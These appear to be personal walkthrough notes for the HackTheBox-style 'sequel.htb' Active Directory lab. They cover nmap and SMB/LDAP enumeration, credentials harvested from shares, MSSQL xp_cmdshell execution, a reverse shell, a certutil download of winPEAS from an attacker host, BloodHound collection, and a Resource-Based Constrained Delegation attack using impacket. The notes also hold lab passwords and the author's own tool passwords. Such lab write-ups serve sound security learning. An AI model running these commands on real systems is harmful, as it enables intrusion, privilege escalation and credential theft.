 

![[Pasted image 20250616230815.png]]

# Given Credentials:


rose:KxEPkKe6R8su


# 1. Nmap: 
-> I always want to start here to see what ports are open and what services are running.

Lets start with a basic scan and see what we can find:
`sudo nmap -sV -sC 10.10.11.51 -oN nmap.basic`

When that scan is done I want to do a deeper scan and run that while I do other tasks.

`sudo nmap -p- -sV -sC --script=default,vuln,exploit -T4 -oN nmap.full 10.10.11.51`

==Try to find valid users with nmap==: 
`sudo nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='sequel.htb',userdb=/usr/share/wordlists/statistically-likely-usernames/us-census-base-lists/j.smith-x98800.txt 10.10.11.51`

Some output from the scan:

1. DNS: DC01.sequel.htb0
2. LDAP and smb in use

![[Pasted image 20250615172520.png]]

## What to try?
1. Null session on SMB?
	1. `rpcclient -U "" -N <target_ip> `
		1. ^^ nothing here either
	2. `smbmap -u "" -p "" -P 445 -H 10.10.11.51 && smbmap -u "guest" -p "" -P 445 -H 10.10.11.51`
		1. ^^ nuthin
2. Null session on LDAP?
	1. `ldapsearch -x -H ldap://10.10.11.51:389 -b "dc=DC01.sequel,dc=htb" "(objectClass=user)"`
	2. ^^ Got nothing here
3. User enumeration with kerbrute?

# enum4linux:
`enum4linux -a 10.10.11.35`

==Usernames:== administrator, guest, krbtgt, domain admins, root, bin

not much more than that.


# With the given credentials (*sigh* did not realize) smbmap:
`smbmap -H 10.10.11.51 -u 'rose' -p 'KxEPkKe6R8su' --no-banner`

![[Pasted image 20250615180030.png]]

Let's look into the shares `Users` and `Accounting Department`

These files are on the accounting share: 
![[Pasted image 20250615180459.png]]

What do they have in them?

Likeley username: `ruy.fernandez` or `rfernandez`

==In a shared xml file there are usernames and creds==

```
rose:KxEPkKe6R8su
angela:0fwz7Q4mSpurIt99
Oscar:86LxLBMgEWaKUnBG
kevin:Md9Wlq1E5bZnVDVo
sa:MSSQLP@ssw0rd!
ryan:WqSZAF6CysDQbGb3
sql_svc:WqSZAF6CysDQbGb3
```


## Enumerate users further: 
`python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py sequel.htb/"oscar":"86LxLBMgEWaKUnBG" -dc-ip 10.10.11.51 -all`

![[Pasted image 20250615183434.png]]

GROUPS:
![[Pasted image 20250615183638.png]]

Cloneable Domain Controllers??


## evil-winrm:
`evil-winrm -i 10.10.11.51 -u oscar -p '86LxLBMgEWaKUnBG'`

^^ nope

## Let's try to get a session on the sqlserver:
`python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py sequel.htb/sa@10.10.11.51`

`EXEC xp_cmdshell 'whoami /priv'`

![[Pasted image 20250616221154.png]]

Ryan is part of the remote management users

==NTUSER.DAT== is accessible from the sql user:
![[Pasted image 20250616222424.png]]

## Let's get a reverse shell using revshells.com: https://www.revshells.com/


==We have some interesting files here==:
![[Pasted image 20250616231857.png]]


### Note: Screeshots are saved here: "/home/david/.cache/thumbnails/normal/"

==In the `sql-configuration.INI` file there are creds for the `sql_svc` account==:  
![[Pasted image 20250618221317.png]]

sql_svc:WqSZAF6CysDQbGb3

```shell
python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py sequel.htb/sql_svc@10.10.11.51 -windows-auth

# Don't forget -windows-auth!

```

## Ryan reused his credentials from `sql_svc!

ryan:WqSZAF6CysDQbGb3

^^ This allows us to get the user flag

## Get Winpeas on the machine:
`certutil -urlcache -split -f http://10.10.16.2/winPEASx64.exe C:\Users\Public\winpeasx64.exe
`

![[Pasted image 20250618225114.png]]

==SharpHound.exe location:== /opt/redteam/BloodHound-win32-x64/resources/app/Collectors/SharpHound.exe

Ran sharphound and transferred it back to my attacker machine with `download` from winrm

neo4j password: neo4j:david

bloodhound password: Sc458849282!

# Ryan has `writeOwner` on ca_svc:

^^ Which means we can conduct Resource-Based Constrained Delegation (RBCD)
![[Pasted image 20250619230802.png]]
## Plan of attack on above:
- Utilize Resource-Based Constrained Delegation to take control of ca_svc
```shell

python3 /usr/share/doc/python3-impacket/examples/addcomputer.py Sequel.htb/ryan:'WqSZAF6CysDQbGb3' -dc-ip 10.10.11.51 -computer-name FAKECOMPUTER$ -computer-pass 'Password123!'
# Create a new computer 

python3 /usr/share/doc/python3-impacket/examples/rbcd.py SEQUEL.HTB/ryan:WqSZAF6CysDQbGb3 -delegate-to ca_svc -delegate-from FAKECOMPUTER$ -dc-ip 10.10.11.51
# Tell ca_svc to trust the new fakecomputer

python3 /usr/share/doc/python3-impacket/examples/getST.py SEQUEL.HTB/FAKECOMPUTER$:'Password123!' -impersonate ca_svc -dc-ip 10.10.11.51 -self
# Capture the hash of ca_svc



```



ca_svc is a member of CERT_PUBLISHERS
![[Pasted image 20250619230847.png]]

